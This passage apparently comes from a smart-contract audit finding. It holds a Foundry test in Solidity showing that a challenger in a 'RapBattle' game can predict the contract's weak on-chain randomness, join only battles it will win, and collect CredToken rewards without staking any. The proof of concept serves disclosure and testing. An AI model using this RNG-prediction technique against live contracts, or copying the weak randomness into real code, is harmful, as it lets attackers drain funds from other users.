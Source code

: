 If `user2` wins, they can get the reward; if they lose it's depends if he approve or not credToken.

```javascript
function testGoOnBattleWithZeroCredToken() public mintRapper {
    address user2 = makeAddr("User2");

    vm.startPrank(user);
    oneShot.approve(address(streets), 0);
    streets.stake(0);
    vm.stopPrank();

    vm.warp(4 days + 1);

    vm.startPrank(user);
    streets.unstake(0);
    vm.stopPrank();

    // user has 4 CredToken and user2 has none
    assert(cred.balanceOf(address(user)) == 4);
    assert(cred.balanceOf(address(user2)) == 0);

    // user goes on battle as defender
    vm.startPrank(user);
    oneShot.approve(address(rapBattle), 0);
    cred.approve(address(rapBattle), 3);
    rapBattle.goOnStageOrBattle(0, 3);
    vm.stopPrank();

    // user2 manipulates RNG to only go on battle if they win

    bool win = false;

    while (!win) {
        uint256 defenderRapperSkill = rapBattle.getRapperSkill(0);
        uint256 challengerRapperSkill = rapBattle.getRapperSkill(1);
        uint256 totalBattleSkill = defenderRapperSkill + challengerRapperSkill;

        uint256 random =
            uint256(keccak256(abi.encodePacked(block.timestamp, block.prevrandao, user2))) % totalBattleSkill;

        win = random > defenderRapperSkill ? true : false;

        vm.warp(111 seconds);
        vm.roll(block.number + 1);

        if (win) {
            vm.startPrank(user2);
            rapBattle.goOnStageOrBattle(0, 3);
            vm.stopPrank();
        } else {
            console.log("##### user loses and decides not to go on battle");
        }
    }

    // check the owner of NFT 0
    assertEq(oneShot.ownerOf(0), address(user), "Owner of NFT 0 is not user");

    // check the balance; the user should not get a reward but they get 3 tokens as a reward
    assertEq(cred.balanceOf(address(user2)), 3, "User2 balance is not 3");
}
```
